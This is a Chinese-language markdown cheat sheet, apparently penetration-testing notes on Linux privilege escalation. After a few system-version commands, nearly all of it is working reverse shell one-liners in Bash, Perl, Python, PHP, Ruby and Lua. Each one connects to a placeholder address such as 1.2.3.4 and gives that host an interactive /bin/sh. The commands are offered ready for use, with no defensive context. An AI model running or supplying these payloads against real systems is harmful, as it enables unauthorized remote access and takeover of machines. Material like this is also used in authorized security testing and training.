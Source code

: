 # GUN Linux 提权笔记

### 查看系统版本
``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```

### Shell反弹
* **Bash反弹**
``` sh
$ bash -i >& /dev/tcp/1.2.3.4/1234 0>&1
```
* **Perl反弹**
``` sh
$ perl -e 'use Socket;$i="1.2.3.4";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* **Python反弹**
``` sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* **PHP反弹**
``` sh
$ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* **Ruby反弹**
``` sh
$ ruby -rsocket -e'f=TCPSocket.open("1.2.3.4",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* **Lua反弹**
``` sh
$ lua -e "require('socket');require('os');t=socket.tcp();t:connect('1.2.3.4','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
